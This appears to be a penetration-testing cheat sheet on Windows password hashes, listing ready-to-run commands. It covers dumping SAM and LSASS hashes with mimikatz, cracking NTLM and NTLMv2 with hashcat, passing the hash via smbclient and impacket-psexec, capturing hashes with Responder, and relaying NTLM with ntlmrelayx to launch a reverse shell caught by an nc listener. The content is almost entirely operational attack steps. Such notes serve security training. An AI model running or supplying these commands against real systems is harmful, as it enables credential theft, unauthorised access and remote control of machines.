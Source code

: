 # Password Hashes

## CRAKING METHODOLOGY
1. Extract hashes
2. Format hashes
3. Calculate the cracking time
4. Prepare wordlist
5. Attack the hash
* Identify a hash: hashid HASH
* Cracking: https://hashes.com/en/decrypt/hash https://crackstation.net/
* Hashcat: https://www.kali.org/tools/hashcat/

## Mimikatz
We use mimikatz to dump the SAM hashes. Also to extract the password hash from LSASS

* ⚠️ We must launch mimikatz from an administrative command prompt
* ⚠️ We must execute two commands "privilege::debug" and "token:elevate"

Usage:
* 1.- mimikatz.exe
* 2.- privilege::debug
* 3.- token::elevate
* 4.- lsadump::sam

## Cracking NTLM
* Get-LocalUser -> to check which users exist locally on the system.
* mimikatz.exe
* privilege::debug
* token::elevate
* lsadump::sam
* Save the hash like user.hash
* hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

## Passing the hash
We can use this technique to authenticate to a local or remote target with a valid combination of username and NTLM hash 
rather than a plaintext password.
* mimikatz.exe
* privilege::debug
* token::elevate
* lsadump::sam
* We need the next tools to execute the PtH (Pass-The-Hash)
### SMB Enumeration
* smbmap
* smbclient
* crackmapexec
### Command execution
* impacket (psexec, smbexec, wmiexec)
### Example
* smbclient \\\\IP\\folder -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
* impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@IP (It's 32 0's)

## Cracking NTLMv2
* start responder: sudo responder -I IFACE
* request access to a non-existent SMB share on our Responder SMB server: dir \\X.X.X.X\noexistent
* Copy the hash from the responder
* Crack it!: hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force

## Relaying NTLMv2
* start responder: sudo responder -I IFACE
* request access to a non-existent SMB share on our Responder SMB server: dir \\X.X.X.X\noexisten
* sudo impacket-ntlmrelayx --no-http-server -smb2support -t IP -c "PAYLOAD REVERSE SHELL"
* nc -nlvp 443 -> Listener for the reverse shell 
